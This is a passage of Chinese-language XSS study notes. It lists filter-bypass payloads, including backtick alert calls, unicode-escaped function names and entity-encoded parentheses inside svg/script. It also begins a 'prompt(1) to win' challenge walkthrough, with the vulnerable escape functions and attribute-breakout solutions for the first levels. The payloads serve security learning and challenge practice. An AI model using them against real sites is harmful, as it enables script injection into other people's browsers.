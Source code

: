 还可以用 `` 反引号

```html
alert`1`
`${alert(1)}`
\u{0000000000000061}lert(1)
```

没了引号

```html
<script>alert(/adkddfasdffaasdfa/)</script>
```





当 = ( ) ; : 被过滤时

```html
<svg><script>alert&#40/1/&#41</script> // 通杀所有浏览器
```



### prompt(1) to win

#### 0. 轻松的开始

```javascript
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

```javascript
">';<script>prompt(1)</script>>
"><svg/onload=prompt(1)>
"><img src="x" onerror=prompt(1)>

"onresize=prompt(1)>
```
#### 1. 

```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}  
```

`/<\/?[^>]+>/gi` 限定了 `gi` 意味着大小写和双写是绕不过的
